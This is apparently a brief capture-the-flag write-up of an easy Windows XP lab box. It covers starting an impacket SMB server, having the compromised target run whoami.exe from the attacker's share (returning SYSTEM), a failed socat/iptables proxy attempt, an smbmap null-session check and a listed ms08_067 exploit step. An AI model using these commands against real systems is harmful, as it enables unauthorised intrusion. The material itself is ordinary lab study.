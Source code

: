 
Box: Windows
Level: Easy
### Index
1. impacket-smbserver to start smb server to send and receive files to Target
2. Using Socat to start the Listener 
3. SMB Null Auth
4. smb exploit using ms08_067_netapi

I was able to start the smbserver using the following command
```
$ impacket-smbserver a /usr/share/windows-resources/binaries/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1033)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] TreeConnectAndX not found WHOAMI.EXE
[-] TreeConnectAndX not found WHOAMI.EX
[*] Closing down connection (10.10.10.4,1033)
[*] Remaining connections []
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

```

This was to host whoami.exe on kali machine. On a target machine, I ran the following command to check the username. 

```
\\10.10.16.5\a\whoami.exe
\\10.10.16.5\a\whoami.exe
NT AUTHORITY\SYSTEM

```

This was the Windows XP box. Easy to pwn. I failed to fireout how to setup a proxy that i can monitor when the payload is being sent on port 445. I tried socat and iptables but it didn't workl

I setup an iptable rule to forward all the traffic received on port 4444 to my burp 8080 but didn't work. I also tried to use 
```
socat TCP-LISTEN:4444,fork TCP:127.0.0.1:8080
```

The above command listen on port 4444 and forward the traffic to burp on port 8080. Didn't work. 

##### SMB Null Auth
```
smbmap -H <IP>
```

